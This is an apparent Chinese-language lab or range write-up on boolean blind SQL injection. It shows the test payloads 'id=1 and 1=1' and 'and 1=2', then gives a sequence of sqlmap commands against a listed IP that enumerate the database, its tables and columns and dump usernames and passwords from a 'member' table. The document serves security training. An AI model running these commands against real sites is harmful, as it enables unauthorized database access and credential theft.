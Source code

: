 # <font style="color:rgb(51, 51, 51);">SQL注入漏洞测试(布尔盲注)</font>
进入环境后，尝试账号密码无果后，点击通知部分，发现可以进入新的页面：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757343609548-60b458ad-0303-4914-b9ab-105213c2343d.png)

发现该页面的URL疑似注入点：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757343641760-410694b2-2555-485b-a029-18399644180b.png)

通过布尔盲注发现确实存在数字型注入：

```plain
http://124.70.71.251:41058/new_list.php?id=1 and 1=1
http://124.70.71.251:41058/new_list.php?id=1 and 1=2
```

使用sqlmap一把梭：

```plain
python sqlmap.py -u "http://124.70.71.251:41058/new_list.php?id=1"
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757343826331-0c5303e2-d2e9-454f-ac87-ae735c9ba1bb.png)

注出当前数据库：

```plain
python sqlmap.py -u "http://124.70.71.251:41058/new_list.php?id=1" --current-db
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757343871161-666c3438-c7b2-41ca-8d62-9cd7e2d25eb3.png)

注出当前数据库的表：

```plain
python sqlmap.py -u "http://124.70.71.251:41058/new_list.php?id=1" -D "stormgroup" --tables
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757343918184-b286c8ab-4435-49cb-8d9a-e33a1b89d320.png)

注出该表的字段：

```plain
python sqlmap.py -u "http://124.70.71.251:41058/new_list.php?id=1" -D "stormgroup" -T "member" --columns
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757343955448-afb202a2-f7e7-4a15-8bf2-f7b586687e16.png)

注出每个字段的内容：

```plain
python sqlmap.py -u "http://124.70.71.251:41058/new_list.php?id=1" -D "stormgroup" -T "member" -C "name,status,password" --dump
```
